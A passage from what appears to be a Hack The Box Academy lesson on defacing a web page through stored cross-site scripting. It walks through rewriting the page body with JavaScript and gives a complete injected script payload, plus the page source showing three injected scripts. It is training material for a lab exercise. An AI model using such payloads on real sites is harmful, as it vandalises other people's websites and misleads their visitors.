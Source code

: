 ```javascript
$("#todo").html('New Text');
```

This gives us various options to customize the text on the web page and make minor adjustments to meet our needs. However, as hacking groups usually leave a simple message on the web page and leave nothing else on it, we will change the entire HTML code of the main `body`, using `innerHTML`, as follows:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

As we can see, we can specify the `body` element with `document.getElementsByTagName('body')`, and by specifying `[0]`, we are selecting the first `body` element, which should change the entire text of the web page. We may also use `jQuery` to achieve the same thing. However, before sending our payload and making a permanent change, we should prepare our HTML code separately and then use `innerHTML` to set our HTML code to the page source.

For our exercise, we will borrow the HTML code from the main page of `Hack The Box Academy`:

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

>[!Tip]
>It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.

We will minify the HTML code into a single line and add it to our previous XSS payload. The final payload should be as follows:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

Once we add our payload to the vulnerable `To-Do` list, we will see that our HTML code is now permanently part of the web page's source code and shows our message for anyone who visits the page:

![](Pasted%20image%2020240724114258.png)

By using three XSS payloads, we were able to successfully deface our target web page. If we look at the source code of the web page, we will see the original source code still exists, and our injected payloads appear at the end:

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```
